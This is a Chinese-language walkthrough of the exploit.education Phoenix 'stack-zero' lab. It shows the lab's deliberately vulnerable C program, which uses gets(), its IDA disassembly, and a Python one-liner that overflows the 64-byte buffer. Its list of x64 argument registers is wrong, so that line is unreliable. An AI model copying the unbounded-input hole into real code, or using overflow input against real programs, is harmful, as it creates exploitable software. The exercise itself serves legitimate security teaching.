


# STACK ZERO

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

### Source code

```c
/*
 * phoenix/stack-zero, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable.
 *
 * Scientists have recently discovered a previously unknown species of
 * kangaroos, approximately in the middle of Western Australia. These
 * kangaroos are remarkable, as their insanely powerful hind legs give them
 * the ability to jump higher than a one story house (which is approximately
 * 15 feet, or 4.5 metres), simply because houses can't can't jump.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

这个是官方的页面，上的内容

其实就是想让我们通过 `buffer` 修改 `changeme` 的值

怎么能做的到呢，其实学过内存布局的人都应该知道 `locals` 是一个局部变量，现在这个情况 `locals` 应该是在栈上的

看到 `gets(locals.buffer);` 这一句，我们可以通过 `STDIN` 输入一个字符串给 `buffer[64]` 赋值，这里很明显的漏洞在于

`gets` 函数从 `STDIN` 读取字符串的时候是没有长度限制的

而 `buffer` 是有大小的，我们输入的长度大于 `64` 的时候就会发生栈溢出，会覆盖到栈上的其他的 内存区域

这里挑战成功的条件是

`locals.changeme != 0`

我直接拿 IDA 看，因为很多时候我们都是黑盒审计

程序挺简单的 看汇编吧，这样有利于技能的提升



```asm
var_60= qword ptr -60h
var_54= dword ptr -54h
var_50= byte ptr -50h
var_10= dword ptr -10h

push    rbp
mov     rbp, rsp
sub     rsp, 60h
mov     [rbp+var_54], edi
mov     [rbp+var_60], rsi
mov     edi, offset s   ; "Welcome to phoenix/stack-zero, brought "...
call    _puts
mov     [rbp+var_10], 0
lea     rax, [rbp+var_50]
mov     rdi, rax
call    _gets
mov     eax, [rbp+var_10]
test    eax, eax
jz      short loc_40061C
```

可以看到

```asm
test eax,eax
jz short loc_40061C
```

这个的意思是

如果 `eax` 为零,设置 `ZF` 零标志为 `1`， `jz`  跳转

跳转到 loc_40061C 就说明我们挑战失败，所以往上看 `eax` 其实存的是 `[rbp+var_10]` 的内容，所以只要我们修改了这个地方就能跳转到我们想要的那个地方，也就是 `puts("Well done, the 'changeme' variable has been changed!");`

我们现在再看输入的地方

```asm
lea     rax, [rbp+var_50]
mov     rdi, rax
call    _gets
```

在 x64 下面调用函数前，要把函数的前 `6` 个参数依次压到

```asm
rdi rsi rax rcx rdx r8 r9 
```

里面，第 7 个以后放在栈上，gets 只有一个参数，只需要把参数压到 rdi 里面就可以，我们可以看到，我们可以写入 `[rbp+var_50]` ，而我们要改变的内存区域是 `[rbp+var_10]` 

在这里 var_ 后面跟的那个数字是 表示变量距离 `rbp` 的距离（当然这是 IDA，其他的反编译器表示可能不一样）

栈是向低地址增长的 我们可以 从 `rbp-0x50` 写入，一直写到 `rbp-0x10`，也就是说只要写入超过 0x40 个字符就能覆盖  `rbp-0x10`

好了，直接操作，用 python 生成 0x41 个 A

```
python -c "print( \"A\" * 0x41)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```



pwn！

程式自己解包拿，或者直接使用官方的镜象，我就不放了